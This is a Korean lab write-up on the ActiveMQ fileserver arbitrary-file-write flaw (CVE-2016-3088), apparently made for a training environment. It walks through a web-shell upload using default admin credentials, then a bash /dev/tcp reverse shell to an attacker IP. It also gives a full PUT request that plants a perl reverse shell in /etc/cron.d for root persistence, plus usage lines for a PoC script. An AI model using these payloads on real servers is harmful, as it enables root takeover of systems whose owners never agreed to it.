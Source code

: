 # ActiveMQ 임의 파일 쓰기 취약점 (CVE-2016-3088)

<strong>기여자</strong>
<br/>

-   [이정우@Roronoawjd](https://github.com/Roronoawjd)
    <br/><br/>

## 환경 설정

docker.sh을 실행하여 docker를 다운로드 한 후 docker-compose.yml파일과 같은 디렉토리에서 아래에 명령어를 실행하여 취약한 환경을 구축한다.

    docker compose up -d

해당 환경은 포트 61616과 포트 8161을 수신한다. 8161포트는 웹 콘솔 포트이다. 8161포트를 통해 웹 사이트에 접근할 수 있으며, 해당 웹 콘솔에서 취약점이 발생한다.

환경이 성공적으로 실행되는지 보기위해 `http://your-ip:8161/`에 방문하여 확인할 수 있다.
![img](images/1.png)

## 배경 설명

ActiveMQ란 Apache Software Foundation에서 개발된 오픈 소스 메시지 브로커(Message Broker)로 메시징 시스템에서 메시지를 중개하고 전달하는 역할을 한다. Java로 작성되었으며, Java Message Service (JMS)를 지원하여 다양한 애플리케이션 간에 비동기적인 통신을 가능하게 한다.
큐(Queue)와 토픽(Topic)이라는 두 가지 메시지 전달 방식을 지원하며, 큐(Queue) 방식은 메시지를 수신 대기 중인 클라이언트 중 하나에게 전달하고, 토픽(Topic) 방식은 메시지를 여러 구독자에게 전달하는 방식이다.

ActiveMQ 웹 콘솔은 admin, api및 fileserver의 세 가지 애플리케이션으로 구분된다. 여기서 admin은 관리자 페이지, api는 인터페이스, fileserver는 파일 저장을 위한 인터페이스이다. Admin및 api는 사용하기 전에 로그인을 해야하지만, fileserver는 로그인을 안해도 이용할 수 있다.
Fileserver는 RESTful API인터페이스이다. GET, PUT, DELETE 등의 HTTP 요청을 통해 저장된 파일을 읽고 쓸 수 있다.

## 취약점 정보

해당 취약점은 fileserver애플리케이션에서 나타난다. Fileserver는 임의의 파일 쓰기와 파일 이동을 지원하여 공격자가 원하는 악성 파일을 공격자가 원하는 위치에 삽입할 수 있다.
하지만 웹 쉘을 삽입하기 위해서는 admin, api 모두 로그인을 해야 접근이 가능하다. Cron과 ssh key를 이용하여 리버스 쉘을 직접적으로 실행할 수 있다. 하지만 루트 권한이 필요하다는 단점이 존재한다.

## 취약점 분석

![img](images/code1.png)
ActiveMQ의 FileServer 서비스를 사용하면 사용자는 HTTP PUT 방식을 통해 지정된 디렉터리에 파일을 업로드할 수 있다. PUT의 백그라운드 처리를 위한 코드를 보면 localfile이라는 함수를 호출한다.<br/><br/>

![img](images/code3.png)
파일을 생성할 때 대상 경로에 어떠한 제한이나 필터링이 적용되지 않았다.<br/><br/>

![img](images/code2.png)
MOVE 요청의 코드에서도 localfile함수를 호출한다. move 요청 함수를 살펴보면 destination이라는 헤더를 입력받고 destination경로로 파일을 이동한다.<br/><br/>

## 웹 쉘 작성

웹 쉘은 admin또는 api app에서 작성해야하며, 두 애플리케이션 모두 로그인을 해야 접근할 수 있다.
기본 ActiveMQ계정과 비밀번호는 admin이다.
먼저 `http://your-ip:8161/admin/test/systemProperties.jsp` 에 방문하여 ActiveMQ의 절대경로를 확인한다.

![img](images/11.png)
ActiveMQ.home이 /opt/activemq에 있음을 알 수 있다.<br/><br/>

이제 fileserver에 임의의 파일을 업로드한다.
![img](images/2.png)
![img](images/3.png)
fileserver/1.txt에 접속을 하여 업로드한 파일을 확인할 수 있다. 204 응답 코드가 뜨면 성공한 것이다.<br/><br/>

사용자가 원하는 파일을 업로드할 수 있다는 것을 알았으니 웹 쉘을 업로드한다.
![img](images/4.png)
![img](images/5.png)
fileserver/1.txt에 접속하여 웹 쉘이 잘 업로드 된 것을 확인할 수 있다.<br/><br/>

![img](images/6.png)
그 후 move로 /opt/activemq/webapps/api/webshell.jsp라는 이름으로 이동을 한다.<br/><br/>

![img](images/7.png)
업로드 한 후 /api/webshell.jsp에 접근하여 로그인을 진행한다.<br/><br/>

![img](images/8.png)
로그인을 하면 웹 쉘이 띄워졌음을 확인할 수 있다.<br/><br/>

![img](images/9.png)
공격자 서버에서 리스닝 포트를 연다.<br/><br/>

![img](images/10.png)
그 후 웹쉘에서 <pre><code>sh -i >& /dev/tcp/192.168.60.132/9999 0>&1</code></pre> 를 입력하여 리버스 쉘을 작동시킨다.
리버스 쉘이 연결된 후 id명령어를 수행하여 root권한을 확인하였다.<br/><br/>

## Crontab 작성, 리버스 쉘 자동화

cron을 이용하여 리버스 쉘을 자동으로 실행하도록 하였다.
/etc/cron.d/ 디렉토리에 파일을 설정하면 자동으로 해당 작업을 실행한다. 이를 이용하여 리버스쉘 코드를 /etc/cron.d/ 디렉토리에 파일 업로드하여 쉘을 획득할 수 있다. 이것은 root권한으로 ActiveMQ 서버를 열었을 때만 공격이 가능하다.

![img](images/12.png)
![img](images/13.png)
perl 명령어를 이용하여 리버스 쉘을 매분마다 실행하도록 하였다.
<br/><br/>

```
PUT /fileserver/1.txt HTTP/1.1
Host: 192.168.60.132:8161
Content-Length: 251

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.45.249";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'


```

cron 설정파일을 업로드 한 후 move를 이용하여 /etc/cron.d/ 디렉터리에 해당 설정 파일을 이동한다.<br/><br/>

![img](images/14.png)
destination 헤더에 경로를 입력하여 /etc/cron.d/root파일의 이름으로 설정 파일을 이동하였다.<br/><br/>

![img](images/15.png)
공격자 환경에서 리스닝 포트를 열고 기다리면 리버스 쉘이 작동하여 ActiveMQ 서버의 root 권한을 획득할 수 있다.<br/><br/>

![img](images/16.png)
ActiveMQ 서버의 로그를 보면 매 분마다 리버스 쉘 코드가 작동되는 것을 확인할 수 있다.

## POC(Proof of Concept)

### 사용법

`python POC.py -url 상대방 주소 -lhost 내 ip주소 -lport 리스닝할 포트`

### 명령어 실행 예

`python POC.py -url http://192.168.60.132:8161 -lhost 192.168.45.249 -lport 9999`

### 결과

#### 윈도우(VScode)

![img](images/17.png)

#### 리눅스(ubuntu)

![img](images/18.png)
